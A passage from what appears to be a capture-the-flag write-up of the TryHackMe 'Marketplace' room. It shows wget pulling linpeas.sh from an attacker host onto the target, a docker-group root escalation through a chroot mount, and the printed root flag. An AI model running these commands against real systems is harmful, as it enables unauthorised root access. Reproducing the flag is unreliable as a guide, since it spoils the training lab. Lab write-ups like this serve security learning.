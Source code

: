 -> Transferring linpeas.sh to target machine for further enumeration:
```
michael@the-marketplace:/tmp$ wget 10.8.35.149:8000/linpeas.sh
--2025-06-23 13:44:40--  http://10.8.35.149:8000/linpeas.sh
Connecting to 10.8.35.149:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 820.45K   388KB/s    in 2.1s    

2025-06-23 13:44:42 (388 KB/s) - ‘linpeas.sh’ saved [840139/840139]
```

-> Looks like michael is part of the docker group
![](attachments/Pasted%20image%2020250623174730.png)

-> Once again using gtfobins,
![](attachments/Pasted%20image%2020250623174853.png)

```
marketplace:/home/michael$ docker run -it --rm -v /:/mnt alpine chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@c8584f61947b:/# whoami
root
root@c8584f61947b:/# cat /root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

-> With that, we have found the final flag for this room.

